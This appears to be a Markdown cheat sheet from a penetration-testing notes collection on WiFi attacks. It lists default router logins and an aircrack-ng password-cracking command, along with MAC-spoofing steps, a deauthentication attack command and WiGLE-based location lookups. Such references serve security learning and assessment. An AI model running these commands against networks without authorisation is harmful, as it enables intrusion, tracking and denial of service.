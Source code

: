 ```yaml
---
title: WiFi Hacking
description: 
tags:
    - Network
refs:
date: 2024-06-19
draft: false
---
```


## Investigation

### Online Tools

- **[WiGLE](https://wigle.net/)**

    Wireless Network Mapping. If you have the BSSID, you can get the location.  
    You need to create an account to use the advanced search.

### Check Status

- **Retrieve the Device IP Address**

    ```sh
    # IP address
    ip addr
    # IP address - Show the specific interface only
    ip addr show eth0
    ip addr show eth1
    ip addr show tun0

    # IPv4 only
    ip -4 addr
    # IPv6 only
    ip -6 addr

    # Static route
    ip route
    ```

- **Delete Network Interfaces From Your Devices**

    ```sh  
    ip link delete docker0
    ```

- **Find Current WiFi IP Address**
    
    We can get the ip adress of the WiFi that we’re currently connecting by checking a default gateway in results of `ipconfig` command. 
    
    ```bash
    ipconfig

    # Outputs
    
    ...
    
    Default gateway . . . . . : 192.168.1.1
    ```

- **Find Another Computer's IP Address/MAC Address on Network**

    ```sh
    arp -av
    ```

- **Get Public IP Address**

    We can get our public ip address from command line as below.

    ```bash
    curl https://api.ipify.org
    ```

    Alternatively, we can get the public ip online like https://www.whatismyip.com/.

<br />

## Crack WiFi Passwords

### Default Router Credentials

```txt
admin:Admin
admin:admin
admin:password
admin:Michelangelo
root:admin
root:alpine
sitecom:Admin
telco:telco
```

### Crack from A Packet Capture File

If we have a packet capture file (.cap or .pcap) of the WiFi network, we can crack the WiFi password using the file.

```bash
aircrack-ng example.cap -w wordlist.txt
```

<br />

## Find BSSID From SSID

1. Access to WiGLE and login.
2. Go to View → Advanced Search.
3. Open the General Search tab.
4. Input the SSID in the SSID/Network Name.
5. Check the result.

<br />

## MAC Address Spoofing

First of all, you need to use network adapter which has monitor mode on your machine.  
**[Aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)** is a complete suite of tools to assess WiFi network security.

1. **Preparation**

    ```sh
    # Show available interfaces
    airmon-ng

    # Put an interface into monitor mode
    airmon-ng start wlan0
    airmon-ng start eth0
    # or
    iwconfig wlan0 mode monitor
    iwconfig eth0 mode monitor

    # Choose the access point (monitor mode)
    airodump-ng wlan0mon
    ```

2. **Retrieve Client's MAC Addresses**

    ```sh
    # Retrieve client's MAC address from the chosen access point
    # -c 9: channel 9
    # --bssid: target router MAC address
    # -w psk: the dump file prefix
    # eth0: interface name
    airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -i wlan0mon
    airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk eth0
    ```

3. **Spoof MAC Address using the Retrieved Address**

    ```sh
    # Take down the network at first
    ip link set wlan0 down

    # Set MAC address which you got by airodump-ng in the previous section
    macchanger -m XX:XX:XX:XX:XX:XX wlan0

    # Bring up the network
    ip link set wlan0 up
    ```

4. **Confirmation**

    ```sh
    # Check the current MAC address
    macchanger -s wlan0
    ```

5. **Reset to the Original MAC Address**

    ```sh
    # Reset to the original (permanent) MAC address
    macchanger -p wlan0
    ```

<br />

## Deauthentication Attack

Reference: [https://medium.com/@flytechoriginal/state-of-wifi-security-in-2024-b88091015cc2](https://medium.com/@flytechoriginal/state-of-wifi-security-in-2024-b88091015cc2)  

Using (Freeway)[https://github.com/FLOCK4H/Freeway], we can easily achieve this attack.

```bash
sudo Freeway -i wlan1 -a deauth
```

<br />

## Other Useful Tools

- **[Bettercap](https://www.bettercap.org/)**

    The Swiss Army knife for 802.11, BLE, IPv4 and IPv6 networks reconnaissance and MITM attacks.

- **[OUI Standards](https://standards-oui.ieee.org/oui/oui.txt)**

    List of MAC OUI (Organizationally Unique Identifier). You can get the information from the BSSID.

    - **Access to the OUI Standards**
    
        If the target BSSID is "B4:5D:50:AA:86:41", search text by inputting "B4-5D-50" on the string search.  
        Then check the information.
